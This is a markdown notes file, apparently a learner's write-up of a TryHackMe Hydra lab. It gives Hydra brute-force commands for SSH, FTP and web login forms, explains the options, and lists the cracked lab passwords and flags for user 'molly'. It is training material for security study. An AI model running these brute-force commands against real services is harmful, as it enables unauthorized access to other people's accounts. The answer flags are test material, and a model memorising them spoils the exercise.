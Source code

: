# Hydra #

# Hydra Intorduction #

Hydra is used to crack online bruteforse password

FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP

# Using Hydra #
```
ftp : hydra -l <user> -P <pass_list> <machine_link>

ssh : hydra -l <username> -P <full_path_to_pass> MACHINE_IP -t 4 ssh
```
options:
| Switch | Description |
|------|--------|
| -l | for username |
| -P | for password files |
| -t | for threads to use |


for using hydra into the post web form 

```
hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "/:username=^USER^& password=^PASS&:F=incorrect" -v
```
| Options | Description |
|---------|-------------|
| -l      | single username |
| -P (Capital) | password list |
| http-post-form | the type of post forms |
| /<login_url> | the login page url |
| :username | the form field where username is entered |
| ^USER^ | tells hydra to use the username |
| password | the form filed where password is entered |
| ^PASS^ | tell hydra to use the password list value one by one |
| login | indicates to hydra the login failed message |
| login failed | is the login failure message the form return |
| F=incorrect | if this word appears on the page, its incorrect |
| -v | verbose output for every attempt |


Use Hydra to bruteforce molly's web password. What is flag 1 ?
 : cmd => hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.225.173 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
 : password = sunshine and username = molly
 : flag => THM{2673a7dd116de68e85c48ec0b1f2612e}
  
Use Hydra to bruteforce molly's SSH password. What is the flag ?
  : cmd => hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.225.173 -t 4 ssh
  : ssh cmd => ssh molly@10.10.225.173 
  : ssh password => butterfly
  :flag => THM{c8eeb0468febbadea859baeb33b2541b}
  
=== THE END === 

